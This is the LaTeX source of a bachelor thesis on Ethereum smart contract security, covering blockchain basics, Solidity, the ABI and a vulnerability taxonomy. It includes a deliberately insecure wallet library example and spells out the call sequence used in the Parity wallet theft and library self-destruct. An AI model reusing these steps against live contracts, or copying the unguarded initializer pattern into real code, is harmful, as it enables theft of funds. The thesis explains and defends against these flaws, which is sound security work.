% \documentclass[10.5pt,a4paper,bibliography=totocnumbered,listof=totocnumbered,twoside]{scrartcl}
\documentclass[10.5pt,a4paper,bibliography=totocnumbered,listof=totocnumbered]{scrartcl}

\nonstopmode 
\usepackage{booktabs}
\usepackage{multirow}
\usepackage[utf8]{inputenc}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}
\usepackage{graphicx}
\usepackage{fancyhdr}
\usepackage{tabularx}
\usepackage{geometry}
\usepackage{setspace}
\usepackage[right]{eurosym}
\usepackage{subfig}
\usepackage{floatflt}
\usepackage[usenames,dvipsnames]{color}
\usepackage{colortbl}
\usepackage{paralist}
\usepackage{array}
\usepackage{titlesec}
\usepackage{parskip}
\usepackage[right]{eurosym}
\usepackage[subfigure,titles]{tocloft}
\usepackage[pdfpagelabels=true]{hyperref}
\usepackage{listings}
\usepackage{mdframed}
\usepackage{pdfpages}
\usepackage{breqn}
\usepackage{multicol}
\usepackage[style=numeric-comp]{biblatex}
\usepackage{minted}

\setmintedinline{breaklines}
\addbibresource{bibliography/sources.bib}

\def\UrlBreaks{\do\/\do-}

\raggedbottom

\usepackage{etoolbox}
\AtBeginEnvironment{minted}{\singlespacing%
    \fontsize{9}{9}\selectfont}

\geometry{a4paper, top=27mm, left=30mm, right=20mm, bottom=35mm, headsep=10mm, footskip=12mm}

\hypersetup{unicode=false, pdftoolbar=true, pdfmenubar=true, pdffitwindow=false, pdfstartview={FitH},
	pdftitle={Security of Smart Contracts},
	pdfauthor={Konstantin Fickel},
	pdfsubject={bachelor thesis - smart contract security},
	pdfcreator={\LaTeX},
	pdfproducer={pdfTeX \the\pdftexversion.\pdftexrevision},
	pdfkeywords={bachelor thesis},
	pdfnewwindow=true,
	colorlinks=true,linkcolor=black,citecolor=black,filecolor=magenta,urlcolor=black}
\pdfinfo{/CreationDate (D:20180718000000)}

\begin{document}

\titlespacing{\section}{0pt}{12pt plus 4pt minus 2pt}{-6pt plus 2pt minus 2pt}

\renewcommand{\sectionmark}[1]{\markright{#1}}
\renewcommand{\leftmark}{\rightmark}
\pagestyle{fancy}
\lhead{}
\chead{}
\rhead{\thesection\space\contentsname}
\lfoot{Security of Smart Contracts}
\cfoot{}
\rfoot{\ \linebreak Page \thepage}
\renewcommand{\headrulewidth}{0.4pt}
\renewcommand{\footrulewidth}{0.4pt}

\renewcommand{\thesection}{\Roman{section}}
\renewcommand{\theHsection}{\Roman{section}}
\pagenumbering{Roman}

\thispagestyle{empty}
\begin{center}
	
\includegraphics[scale=0.22]{img/common/unia.pdf}\\
	\vspace*{2cm}
	\Large
	\textbf{Department of}\\
	\textbf{Computer Science}\\
	\vspace*{1.5cm}
	
\includegraphics[width=3.5cm]{img/cover/cover.pdf}\\
	\vspace*{1cm}
	\Huge
	\textbf{Bachelor Thesis}\\
	\vspace*{0.5cm}
	\large
	about the topic\\
	\vspace*{0.5cm}
	\textbf{Security of Smart Contracts}\\
	\vfill{}
	\normalsize
	\newcolumntype{x}[1]{>{\raggedleft\arraybackslash\hspace{0pt}}p{#1}}
	\begin{tabular}{x{3.5cm}p{10cm}}
		\rule{0mm}{5ex}\textbf{author:}          & Konstantin Fickel\newline konstantin.fickel@student.uni-augsburg.de \\
		\rule{0mm}{5ex}\textbf{supervisor:}      & Dr. Kuzman Katkalov                                                 \\
		\rule{0mm}{5ex}\textbf{submission date:} & 1st of August 2018                                                  \\
		\rule{0mm}{5ex}\textbf{version:}         & v1.0.2                                                              \\
	\end{tabular}
\end{center}
\pagebreak

\setcounter{page}{1}
\onehalfspacing
\titlespacing{\section}{0pt}{12pt plus 4pt minus 2pt}{2pt plus 2pt minus 2pt}

\pagebreak

\renewcommand{\cfttabpresnum}{Tab. }
\renewcommand{\cftfigpresnum}{Abb. }
\settowidth{\cfttabnumwidth}{Abb. 10\quad}
\settowidth{\cftfignumwidth}{Abb. 10\quad}

\titlespacing{\section}{0pt}{12pt plus 4pt minus 2pt}{2pt plus 2pt minus 2pt}
\singlespacing
\rhead{TABLE OF CONTENTS}
\renewcommand{\contentsname}{Table of Contents}
\phantomsection
\addtocounter{section}{1}
\tableofcontents
\pagebreak

\titlespacing{\section}{0pt}{8pt plus 4pt minus 2pt}{-6pt plus 2pt minus 2pt}
\titlespacing{\subsection}{0pt}{8pt plus 4pt minus 2pt}{-6pt plus 2pt minus 2pt}
\titlespacing{\subsubsection}{0pt}{8pt plus 4pt minus 2pt}{-6pt plus 2pt minus 2pt}

\renewcommand{\sectionmark}[1]{\markright{#1}}
\renewcommand{\subsectionmark}[1]{}
\renewcommand{\subsubsectionmark}[1]{}
\lhead{Chapter \thesection}
\rhead{\rightmark}

% \onehalfspacing
\renewcommand{\thesection}{\arabic{section}}
\renewcommand{\theHsection}{\arabic{section}}
\setcounter{section}{0}
\pagenumbering{arabic}
\setcounter{page}{1}

\section{Introduction}
Since the start of the Bitcoin Blockchain back in 2009, digital crypto-currencies have captured the public's attention and interest. While the most prominent application of blockchains is providing a public ledger tracking the transfers of a crypto currency to avoid double spending, more generalized and advanced applications of the blockchain technology are possible: For example, \textit{Smart Contracts} can be used, which are agreements between mutually distrusting partners, that are automatically enforced by the consensus mechanism of the blockchain. (see \cite{atzei:attacksurvey})

In this thesis, smart contracts of the Ethereum-Blockchain will be considered. Ethereum is the second largest blockchain\footnote{according to marked capitalization, see \cite{coinmarketcap:overview}}, which focuses on the execution of smart contracts. Since its launch in July 2015 Ethereum has gained a market capitalization of more than 45 billion US-\$.

Smart contracts are an especially popular and lucrative target for attacks due to various reasons. First, they manage crypto-currencies directly, and therefore exploiting a vulnerability of the contract can release its contained value. And since it is possible to act anonymously on the blockchain, there is only little risk for the attacker. An even more striking argument is the finality of transactions: Once an attack has been conducted and the transactions have been accepted, is is very hard to revert the consequences. Additionally, hacking smart contracts is very easy: In all cases, the executable bytecode can be found on the blockchain; in many cases, easy-to-read source code is available as well. Because of this, possible attacks can be found and tested out without any risk. (see \cite{wagner:honeypots})

In the most significant hack in the history of the ethereum network, an attacker was able to steal 60 million dollar; and in an accidental deletion of a library 150 million dollar were rendered inaccessible forever on the blockchain. Both cases underline the importance of thorough development and research in this area.

\paragraph{Contribution \& Significance} This bachelor thesis presents a survey of common vulnerabilities, including more recent attacks like the accidental deletion of the Parity Multi-Signature Library from November 2017. The different vulnerabilities are categorized into a taxonomy by the part of the smart contract ecosystem where the mistake of the programmer originated in. For all vulnerabilities possible solutions are provided and small and understandable examples have been created by the author; and if available real attacks performed on the Ethereum blockchain are explained in detail.

As a new vulnerability the abuse of function identifier collisions in the Solidity ABI is presented; and with \textsc{Sact} a tool for calculating hash Solidity ABI identifier hash collisions has been created by the author.

Additionally, the first systematic exposition of tricks used in honeypots, contracts that make users send them Ether by simulating security vulnerabilities, is provided, featuring two honeypot techniques have had not been known to be used in honeypots before.\footnote{namely transaction races and not calling call-functions like \mintinline{solidity}{adr.call.value(this.balance);)}}.

Furthermore, a strategy to discourage honeypot development for blockchain explorers has been developed, and with \textsc{Amphicyon}, a tool for automated static Solidity-code analysis for underhanded contracts, has been implemented and executed on over 8.000 smart contracts.

\pagebreak{}

\section{Foundations}

To understand the vulnerabilities of smart contracts, some basic knowledge about their execution is required. In this first chapter, the underlying technology ensuring the correct execution of smart contracts, the blockchain, will be presented in an abstract way. Later, the concept of smart contracts will be explained along with some example usages.

\subsection{Blockchain}
A blockchain is a append-only linked-list that powers a infinite state machine run on top of a peer-to-peer network with byzantine failure model. ({see \cite{cryptroncis:blockchainesoftwareengineers}) In the following paragraphs, the parts of this definition will be explained in detail, mainly in the context of the Ethereum Blockchain.

\paragraph{State Machine}
The abstract concept behind the blockchain is an \textit{infinite state machine}. The state can be seen as a list of accounts that are able to own units of a crypto currencies. In a simple case, there are only accounts which are controlled by private keys that correspond to public keys that are referenced in the blockchain state.

The transitions of this state machine are called \textit{transactions} and are in this case just transfers of crypto currencies from one account to another. To ensure that only the owner of the account is able to spend their balance, a valid signature of the corresponding private key is required. If a transaction is not valid, because for example the signature is corrupted or a higher value is sent than owned by the account, the blockchain state is not changed by the transaction. Transactions are atomic, which indicates that they either are executed completely, or that they don't change the state of the blockchain at all.

By using public key cryptography, it is ensured that only the account owner is able to transfer its balance. A problem arising is \textit{double spending}, meaning that the owner of an account issues two contradicting, valid transactions transferring its balance to another account. As a solution to this problems, transactions have to become irreversible once they have been accepted by the system.

\paragraph{Blocks}
To fix the double spending problem, the network has to agree to an order of the transactions. To achieve this, transactions that are broadcasted over the peer-to-peer network, are collected in transaction pools and put into an order to form blocks. A block is referenced by its hash value, which changes completely at any modification to it's contents, and it is difficult to find collisions between two arbitrary different blocks.

The hash of the previous block is contained in the next block -- so if the content of a block is changed, all blocks appended to this block will become invalid, so that attempts to modify old transactions can be easily detected and prevented.

\paragraph{Consensus Protocol}
To make the blockchain work without a central authority, a peer-to-peer network is created that is used to broadcast transactions and new blocks. Every full node participating in the blockchain maintains a complete copy of the data structure.

One of the more interesting achievements of the blockchain is, that no trusted nodes are required to run the system. To achieve this, the proof of work was introduced: To append a block to the blockchain, additionally, a mathematical puzzle has to be solved; for example the block has to be modified in a way, that the hash value starts with a certain amount of zeroes. In the network, many different miners compete to solve the puzzle and therefore be able to append the block. To achieve this, a lot of calculations are required, which amounts to time, computing infrastructure and energy. Participating in this process is incentivized by transferring transaction fees and newly minted coins to the accounts of the miners. If the chain splits and two conflicting versions of the blockchain exist, the nodes prefer the longer blockchain, ensuring that the version where the majority of the calculations was performed for is kept.

As blockchain have a so-called \textit{Byzantine Failure Model}, none of the participants has to be trusted, and some nodes might even be attempting to destroy the integrity of the Blockchain.\footnote{see \cite{lamport:byzantine}} This robustness against attacks against the network is at the cost of performance compared to a centralized approach.

This consensus protocol was first popularized by and implemented in \textit{Bitcoin} by Nakamoto in \cite{nakamoto:bitcoin}, which was launched in 2009 and is up to today the blockchain with the highest market capitalization.

\subsection{Smart Contracts}
A smart contract is an "autonomous agent" stored on the blockchain. In the context discussed in this thesis, they are treated equally to the accounts of corresponding private key pairs, but are controlled by its code that is stored on the blockchain and executed by the nodes. To enable more advanced applications, every contract has a persistent storage which is part of the blockchain state that is kept over multiple transactions. The execution of smart contracts can be seen as a more advanced state transition of the blockchain.

Smart contracts are created as a result of a special creation message that can be launched by any account -- so that both external agents and other smart contracts can create new smart contract accounts. Once deployed, their code becomes immutable.

The abstract concept of smart contracts was first formalized in a note by Nick Szabo back in 1997 (\cite{szabo:smartcontracts}) who compared his idea to vending machines: Every account present on the blockchain is able to interact with the smart contract, so that both users and other smart contracts can send messages to the contract. Additionally, smart contracts are self-enforcing and unambiguous, since their outcome is determined by their deployed code -- and once deployed they are completely independent from their creator and can not be revoked.

On the Ethereum blockchain, smart contracts for many different applications can be found: While one of the more classical ideas is to use them to trade with or create own crypto-currencies (as done for example in \cite{etherscan:earlytokensale}), there were also projects using smart contracts fully-automated investment-company (\cite{etherscan:dao}), prediction markets enabling people to bet on certain events (\cite{augurproject:whitepaper}) or even different kinds of games like a the crypto-collectible game CryptoKitten (\cite{cryptokitten:whitepaper}).


\pagebreak{}
\section{Ethereum}

After Bitcoin, the second most popular crypto currency\footnote{according to marked capitalization, see \cite{coinmarketcap:overview}} is \textit{Ether}, which is powered by the \textit{Ethereum Blockchain}. While Ether is the most common denomination of the crypto currency, the values are stored as integers in the unit Wei, which amounts to \( 10^{-18} \textnormal{ Ether}\).

In contrast to Bitcoin, being the ledger recording the simple transfers of the crypto currency is not the main purpose of the Ethereum blockchain: Ethereum was planned to be an general-purpose execution platform for smart contracts, as described in its Whitepaper (\cite{ethereum:wiki}}) that was published in 2014 by the Russian-Canadian programmer Vitalik Buterin.

The blockchain was then launched in 2015, and is maintained by the Ethereum Foundation that is based in Switzerland. They provide reference implementations of the client and maintain descriptions of the protocol and its changes, which the miners can choose to adapt.

In the following chapter, an introduction to the concepts relevant for understanding vulnerabilities of smart contracts on the Ethereum blockchain will be provided.


The state of the Ethereum blockchain consists of accounts, that can either be controlled by \textit{external actors} using public-key cryptography or by smart contracts. For interaction between accounts, \textit{messages} between accounts are launched, which can create new contracts, transfer Ether or call functions of smart contracts. The Ethereum blockchain is lifeless, to start an execution a \textit{transaction}, a message by an external actor, is required. This can lead to \textit{internal transactions}, messages initiated by smart contracts.

Since smart contracts are validated by every node of the network by simply checking if their execution has the same result, smart contracts on Ethereum have to be deterministic.

\subsection{Ethereum Virtual Machine}
\label{section:deepdive:evm}

To formally describe smart contracts, the instructions are encoded as a \textit{bytecode} for a stack machine, which is called the \textit{Ethereum Virtual Machine} (short: EVM). There are around 140 different instructions, ranging from basic arithmetical and logical operations on the stack items, possibilities to fetch information about the blockchain state, stack management like swapping or pushing items, and contract storage management up to ways to interact with other smart contracts.

In an contract execution, aside from the stack, three different kinds of memory can be used: The \textit{calldata} contains information by the sender of current message and can only be read; a non-persistent \textit{memory} that can be accessed arbitrarily, and a contract \textit{storage} that is persistent over the lifetime of the contract and therefore is part of the blockchain state.

Since the Ethereum Virtual Machine is Turing-Complete, there is no way to predict whether the execution of a smart contract will terminate. Because of this, the so-called \textit{gas-system} has been implemented, whose goal is to limit the resources required to execute (and therefore validate) the transactions. Gas is a fee, that users have to pay to the miner of the block for every operation executed during their transaction. The amount of gas required by the transaction is determined by the computational resources required for each instruction; and the \textit{gas price} can be dynamically set by the initiator of the transaction. If the gas price is set too low the transaction will be only executed after a long time or will even never be included into a block.\footnote{see \cite[Whitepaper]{ethereum:wiki}}

At the beginning of every transaction, the maximum amount of gas allowed to be used during its execution has to be set, which is called \texttt{STARTGAS}. Every instruction for the Ethereum has a gas price, which is supposed to be proportional to the resources required for execution. In every computation step, the gas price of the current instruction is deducted from the \texttt{STARTGAS}. If at the end of the execution there is gas left, the remaining gas value is refunded to the user that started the transaction. If a computation runs out of gas or fails due to an error, the whole transaction is reverted and the gas is left for the miner.

Using the designated \texttt{CALL} operation, a contract can send messages to other accounts, for example to retrieve data from other contracts or to send Ether. This new message includes among others the address of the called contract, the Ether sent along with the message, the message data and the gas that can be used by the sub-execution has to be specified, of which the later can limit the operations that can be done by the callee.

The price paid per gas unit to the miners can be set by the creator of the transaction. Due to higher revenue, the miners are incentivized to include the transactions with the highest gas price -- making its choice a tradeoff between the costs and the time until the transaction is included into the block.\footnote{see \cite[Whitepaper]{ethereum:wiki}}

\subsection{Solidity}
Since smart contract bytecode (even in the form of assembler) is difficult to read, there are several high-level languages for smart contract development. The most popular language of those is Solidity, which has a syntax similar to JavaScript, but with static types. This makes smart contracts simple to be used for web programmers, but sets wrong expectations for the final completely-public and resource-bounded execution in the EVM.

Solidity is a contract-oriented language: Instead of classes as in object-oriented languages, the code is structured into smart contracts, which will later compile to the code that can be deployed to a smart contract account.

In listing \ref{lst:introduction:caution} a smart contract version of an deposit account is presented, that is meant to be a protection for a landlord when renting out a flat. The smart contract is an agreement between the landlord and the tenant, that ensures that the tenant is only able to withdraw the caution, if the landlord allows the withdrawal (for example after the tenancy has been quit).

\begin{listing}
	\begin{minted}[
        linenos=true,
        firstnumber=1
    ]{solidity}
pragma solidity ^0.4.24;

contract Caution {
    address public tenant;
    address public landlord;
    bool public landlordAllowsWithdrawal = false;

    constructor(address _landlord) public payable {
        landlord = _landlord;
        tenant = msg.sender;
    }

    function allowWithdrawal(bool _newDecision) public {
        require(msg.sender == landlord);
        landlordAllowsWithdrawal = _newDecision;
    }
    
    function withdraw() public {
        require(msg.sender == tenant && landlordAllowsWithdrawal);
        selfdestruct(tenant);
    }
}
    \end{minted}
	\caption{A fully-implemented Caution smart contract}
	\label{lst:introduction:caution}
\end{listing}

The contract contains two different types of entries: There are state variables like \mintinline{solidity}{address public tenant} that will be stored in the persistent contract storage. The other part of the contract are functions, that will be compiled to the code of the smart contracts. A special function of the constructor, that is either a function with the same name as the contract, or a function without identifier using the \mintinline{solidity}{constructor} keyword. The code inside the constructor will be executed during contract creation, and will later not become a part of the contract code in the blockchain state.

If functions or state variables of the smart contracts are meant to be accessible for other smart contracts on the blockchain, they can be marked as \mintinline{solidity}{public} and will therefore become part of the contract interface, which will be explained in the next section.\footnote{see \cite{ethereum:solidity}}

\subsection{Solidity ABI}
\label{section:deepdive:abi}
The Ethereum Virtual Machine itself only provides a way to send arbitrary binary strings inside \mintinline{solidity}{msg.data} along with messages to smart contracts. In order for users or contracts to call specific functions, the Solidity \textit{Application Binary Interface} (short: ABI) provides standards for smart contract interaction:

The first four bytes of \mintinline{solidity}{msg.data} will be interpreted as the \textit{function selector}, which determines the function of the called contract that will be executed.

The function selector can be calculated from the function signature by using the first four bytes of the \texttt{keccak256}-hash of the function name along with its parameter types: For the function \mintinline{solidity}{allowWithdrawal} from the caution contract the function selector would be \texttt{33866f68}, which is the result of \mintinline{solidity}{bytes4(keccak256("allowWithdrawal(bool)"))}. The function to be used in the smart contract will then be determined at the beginning of the smart contract execution using conditional jumps:
\begin{verbatim}
PUSH 33866f68
EQ
PUSH [position of function start code]
JUMPI
\end{verbatim}

If no matching function selector is provided (for example in a simple message to send Ether), the code inside the \textit{fallback function} will be invoked, which in Solidity can be defined as a function without a name as in \mintinline{solidity}{function () public {}}.

After the function selector \mintinline{solidity}{msg.data} contains the function parameters in the same order as named in the function. The arguments are stored padded to occupy the default word length of the Ethereum virtual machine of 32 bytes; arguments with variable size like arrays (\mintinline{solidity}{uint[]}) or \mintinline{solidity}{string}s are stored at the end of the \mintinline{solidity}{msg.data}, starting with its size followed by all the elements in a row; at the original slot of the argument the starting position inside \mintinline{solidity}{msg.data} is referenced. Note, that if bytes of the call data that are outside the supplied \mintinline{solidity}{msg.data} are requested, just \texttt{0} is returned.

To describe the way a specific contract can be interacted with, the contract interface has to be described. As the contract interface is not included on the blockchain, it has to be provided externally.

For interactions using for example the JavaScript-console of the geth-Client or using user-friendly Wallet-applications, the JSON-ABI can be provided, that is being generated by the Solidity compiler as well. For \mintinline{solidity}{allowWithdrawal(bool)} the JSON-contract interface looks like this:\footnote{see \cite[Application Binary Interface Specification]{ethereum:solidity}}

\begin{minted}{json}
[
    {
        "constant": false,
        "inputs": [{
            "name": "_newDecision",
            "type": "bool"
        }],
        "name": "allowWithdrawal",
        "outputs": [],
        "payable": false,
        "stateMutability": "nonpayable",
        "type": "function"
    },
]
\end{minted}


\subsection{Storage Alignment}
\label{section:deepdive:memory}
From the perspective of a smart contract programmer, the persistent smart contract storage can be seen as an monstrous array containing \( 2^{256} \) elements, which is the amount of possible values a \mintinline{solidity}{uint}, whose elements initially are all filled with zeroes. Every element of the storage array can be modified and changed arbitrarily by the programmer.

Solidity uses the following technique to map variables to storage cells: The first state variable declared inside the contract is saved in slot \( 0 \), the next variable follows respectively in the following slot. If a storage variable like a \mintinline{solidity}{struct} or a fixed-size array (for example \mintinline{solidity}{uint256[]}) requires more than one memory slot, the subsequent slot is used.

Dynamically sized state variables like arrays (\mintinline{solidity}{uint[]}) or mappings (\mintinline{solidity}{mapping(string -> address)}) are saved in a different way: At the beginning of the array, only one slot is used. In there, the length will be saved, if the element is a dynamic array, otherwise the cell will retain value \mintinline{solidity}{0}.

The location of the array elements is determined by hashing the position in the array or the key in the mapping, in short by hashing \mintinline{solidity}{uint256(keccak256(key, slot))}. This memory layout relies on the assumption, that no collisions of the \texttt{keccak256}-algorithm will be found.\footnote{see \cite{programmingtheblockchain:storagelayout} and \cite[Layout of State Variables in Storage]{ethereum:solidity}}


\pagebreak{}

\section{Vulnerabilities and Attacks}

\begin{table}[]
	\centering
	\resizebox{\textwidth}{!}{%
		\begin{tabular}{@{}llll@{}}
			\toprule
			\textbf{Location}                          & \textbf{Topics}                       & \textbf{Vulnerabilities}                & \textbf{Real Attacks}   \\ \hline
			\multirow{7}{*}{\begin{tabular}[c]{@{}l@{}}Compilation\\(Solidity)\end{tabular}} & \multirow{4}{*}{ABI}                  & Non-Restricted Function Accessibility   & Parity Theft            \\
			                                           &                                       & Libraries called in their own context   & Parity Freeze           \\
			                                           &                                       & Constructors of renamed contracts       & \texttt{Rubixi}         \\
			                                           &                                       & Wrong interfaces                        &                         \\ \cline{2-4}
			                                           & \multirow{3}{*}{Compilation}          & Compiler Bugs                           &                         \\
			                                           &                                       & Type deduction                          &                         \\
			                                           &                                       & Mishandled exceptions                   & \texttt{KingOfTheEther} \\ \hline
			\multirow{7}{*}{\begin{tabular}[c]{@{}l@{}}Execution\\(EVM)\end{tabular}} & \multirow{2}{*}{Standalone}           & Overflows                               & MESH-Tokens             \\
			                                           &                                       & Block Gas Limit                         & \texttt{GovernMental}   \\ \cline{2-4}
			                                           & \multirow{5}{*}{Contract Interaction} & Reentrancy                              & \texttt{TheDAO}         \\
			                                           &                                       & Using tx.origin                         &                         \\
			                                           &                                       & Modifiable contract balances            &                         \\
			                                           &                                       & Subcalls stopping the whole transaction & (\texttt{COIN\_BOX})    \\
			                                           &                                       & Callstack depth                         &                         \\ \hline
			\multirow{4}{*}{\begin{tabular}[c]{@{}l@{}}Platform\\(Ethereum Blockchain)\end{tabular}} & \multirow{4}{*}{Miners and Secrecy}   & Transaction order                       &                         \\
			                                           &                                       & Secrets on the blockchain               & \texttt{RPS}            \\
			                                           &                                       & Relying on block variables              & Roulette                \\
			                                           &                                       & Abusing underpriced instructions        & DoS-Attack              \\\hline
			\multirow{7}{*}{\begin{tabular}[c]{@{}l@{}}External\\(Users and interacting Platforms)\end{tabular}} & \multirow{4}{*}{Honeypots}            & Underhanded source code                 & X2\_FLASH               \\
			                                           &                                       & Wrong library source code               & (\texttt{COIN\_BOX})    \\
			                                           &                                       & Zero-Value-Transactions                 & \texttt{COIN\_BOX}      \\
			                                           &                                       & Transaction Race                        & \texttt{GIFT\_CARD}     \\ \cline{2-4}
			                                           & \multirow{3}{*}{Others}               & Orphan Addresses                        & 0x0                     \\
			                                           &                                       & Incentive Misalignment                  &                         \\
			                                           &                                       & Address-length attacks                  & Poloniex-Exchange       \\ \hline
		\end{tabular}%
	}
	\caption{Taxonomy of the smart contract vulnerabilities presented in this thesis.}
	\label{table:taxonomy}
\end{table}

In the following section, common vulnerabilities of smart contracts on the Ethereum blockchain will be presented. A similar list of attacks against smart contracts has been compiled by Atzei, Bartoletti and Cimoli in \cite{atzei:attacksurvey}, yet there are some major differences: After they had published their survey, new vulnerabilities -- like the ones related to the Parity Multi-Signature Wallet -- have been found. Others like the vulnerabilities related ABI collisions or the Incentive Misalignment had also not been included by the authors. The scope of this thesis is extended compared to the survey: In this section, vulnerabilities of the whole smart-contract ecosystem are considered, like Honeypots and the DoS-attack against the Ethereum Network because of malicious smart contracts. Attacks exploiting the described vulnerabilities that happened on the real Ethereum Blockchain are described in detail, presenting their context and consequences. If possible, solution approaches are presented for the vulnerabilities.

The vulnerabilities presented in this section have been grouped into seven different topics that can be found in table \ref{table:taxonomy} in the second column. Those can be grouped into four "locations" of the pitfalls for the programmer when creating smart contracts:

\begin{itemize}
	\item[\textbf{Compilation:}] Misunderstandings of features of the high-level programming languages and bugs in the compiler
	\item[\textbf{Execution:}] Wrong assumptions about the execution of the contract bytecode in the Ethereum virtual machine
	\item[\textbf{Platform:}] Misjudgments about blockchain properties and the mining process
	\item[\textbf{External:}] Confusion because of the presentation of the blockchain data on external platforms and other mistakes happening "outside" the blockchain
\end{itemize}

Compared to the taxonomy by Atzei, Bartoletti and Cimoli, the "External" category has been added and a few vulnerabilities have been moved to different categories: Some errors considered a pitfall of the compilation step in the survey here can be found in different groups: Since a re-entrancy vulnerability might also occur in code written directly in assembler, it has been moved to the "Execution" category. And although Solidity might make the user unjustifiably feel like the properties can't be read by external programs when using the \mintinline{solidity}{private}-modifier, the "Secrets on the blockchain"-issue is still mainly related to programs being executed in a distributed way and publicly on the blockchain; which lead to the decision to place this vulnerability in the "Platform" category.

Most of the examples are shortened, and lines not important for understanding the code like \mintinline{solidity}{pragma solidity ^0.4.24;} have been left out.

\subsection{Solidity ABI \& Exposed Functions}
The Solidity \textit{Application Binary Interface} (short: ABI) is a convention for contract interaction which specifies the function calls between contracts on the bytecode-level. To explain to potential users how to call a contract deployed on the blockchain, a \textit{contract interface} (for example a JSON-file generated by the Solidity-compiler) can be published, which contains the signatures of the functions available in the contract.

\subsubsection{Non-Restricted Function Accessibility}
Because the contract interface is not stored on the blockchain, using the ABI correctly and only calling functions specified in the published interface is not enforced by the protocol. The contract creator has to make sure that no internal function is called. Since the Solidity compiler only generates entry points for the functions marked as public, this is usually not a problem. But if for some reason the user decides to bypass those mechanisms, this can lead to serious damage:

\paragraph{Embedding Library Functions} Since deploying complex code to the Ethereum blockchain requires gas (and therefore costs Ether) proportional to the amount of EVM bytecode deployed as a payment to the miners, it became popular to extract and store most of the code in library smart contracts like the contract in listing \ref{lst:abi:library}.

\begin{listing}[H]
	\begin{minted}[
        linenos=true,
        firstnumber=1
    ]{solidity}
contract SimpleWalletLibrary { 
    address public owner;
    function () public payable {}
    function initWallet(address _owner) public {
        owner = _owner;
    }
    function kill() public {
        require(msg.sender == owner);

        selfdestruct(owner);
    }
    // ...
}
    \end{minted}
	\caption{The library contract \texttt{SimpleWalletLibrary}}
	\label{lst:abi:library}
\end{listing}

To access the functions in the library from inside another contract, the low-level command \texttt{delegate\-call} can be used, which executes the bytecode of the library contract using the execution context (the storage of the contract, ownedEther etc.) of the caller (see section \ref{section:deepdive:evm} for more details). To invoke a specific library function, its signature hash has to be provided along with the parameters:
\begin{minted}{solidity}
simpleWalletLibrary.delegatecall(bytes4(keccak256("initWallet(address)")), owner);
\end{minted}

Because it would still require a lot of bytecode to create an explicit function executing \texttt{delegate\-call} for every function of the library code to be included, in some contracts the fallback function is used to redirect all calls whose signature hash did not match any of the regular functions inside the contract to the corresponding function of the library contract:
\begin{minted}{solidity}
function() public payable {
    simpleWalletLibrary.delegatecall(msg.data);
}
\end{minted}

Using this trick the published contract interface of the main contract is able to contain functions from the library contract, which can be called as if they were explicitly declared inside:
\begin{minted}{solidity}
contract SimpleWalletABI {
    function kill() public;
    function () public payable;
}
\end{minted}

Although in this example \mintinline{solidity}{initWallet(address)} is not explicitly mentioned in the published contract interface, it can still be used since the call will nevertheless be forwarded by the fallback function. This enables anyone to become the owner of the instance of the \texttt{Wallet} contract.

\subparagraph{Parity Wallet Stealing}
A contract using the library-pattern was the Multi-Signature Wallet the Parity client used as a template contract. A \textit{Multi-Signature Wallet} is a special contract that stores crypto-currencies for a group of people (for example the founders of a start-up) and requires the approval of several owners to make sure no one alone can steal the funds. One of the authors of the Wallet-Contract was the inventor of the Solidity-ABI, Gavin Wood.\footnote{see \cite{wikisource:solidityinventorgavinwood} for Gavin Wood being the inventor of the ABI, \cite{code:parityenhancedwalletsteal} for him writing the contract}

The vulnerability of the Wallet contract, that can be found at \cite{code:parityenhancedwalletsteal}, is the following: In the library \mintinline{solidity}{contract WalletLibrary}, there is the initializer function \mintinline{solidity}{initMultiowned(address[] _owners, uint _required)} which sets the owners of the Multi Signature Wallet without checking if they were already set. This function is called in the constructor of \texttt{Wallet} using \texttt{de\-le\-gate\-call}, but could still be accessed in the Wallet because inside the fallback function \mintinline{solidity}{function() payable} every call with an unmatched function selector gets forwarded to the \texttt{WalletLibrary}.

Because of this, the attacker just had to call \mintinline{solidity}{initMultiowned(["0x<ownAddress>"], 0)} on a wallet to set themself as the owner and disable the requirement of multiple approvals; and afterwards use its \texttt{execute}-function to transfer its contents to another account.\footnote{see \cite{etheraveum:paritywallethackexplained}. The function calls were done in the transactions \cite{etherscan:walletsteal:inittransaction} and \cite{etherscan:walletsteal:executetransaction}.}

The attack took place on 19th of July 2017 and emptied three MultiSignature-Wallets obtaining about 30 million US-\$ in Ether at that time. Soon a group of \textit{white-hat hackers} (hackers using their knowledge to help the public) had noticed and analyzed the attack and started exploiting the vulnerability as well as trying to rescue the Ether out of the vulnerable wallets. If the attacker would have had more time, they could have stolen up to additional 90 million US-\$ of Ether. (see \cite{freecodecamp:paritywallethackexplained}) Until time of writing, the attacker has not retrieved their yield, probably to keep their identity concealed.\footnote{see the account balance of the hacker at \cite{etherscan:walletsteal:account}}. This bug was fixed by Parity by adding a modifier \mintinline{solidity}{only_uninitialized()} to the initializer-functions, which prevents the function from being called when the owners have already been set.

\subsubsection{Libraries Called in their own Context}
Listing \ref{lst:abi:library} contains another vulnerability: While only intended to be used as a library and not called directly, the deployed \mintinline{solidity}{WalletLibrary} has some of the functionality of a regular \mintinline{solidity}{Wallet} when called directly (and therefore is working in its own context). This includes becoming the owner of the contract by using \mintinline{solidity}{initWallet("0x<ownAddress>")} and then deleting the contract using \mintinline{solidity}{kill()}.

This "suicide" of the library will remove the library code from the blockchain state thus rendering all contracts calling the library useless, since now all the calls to that contract will just return \mintinline{solidity}{false}.

A possible solution to this problem is using the contract type \mintinline{solidity}{library}, which will make the compiler add a check whether the address of the execution context is equal to the address of the context used when deploying the contract, and if so, revert the execution.

\paragraph{Parity Library Suicide}
As a response to the first attack against the wallets a fixed version of the \texttt{WalletLibrary} was deployed, which was then used starting from 20th of July 2017 as the new template contract in the Parity Client. But while the initialization function was secured, this vulnerability was overlooked:

On  the 6th of November 2017 someone sent a call to \mintinline{solidity}{initMultiowned(["0x<ownAddress>"], 0)} to become the "owner" of the \mintinline{solidity}{WalletLibrary}, followed by \mintinline{solidity}{kill("0x<ownAddress>")}.\footnote{as done by the attacker in \cite{etherscan:walletfreeze:init} and \cite{etherscan:walletfreeze:kill}}

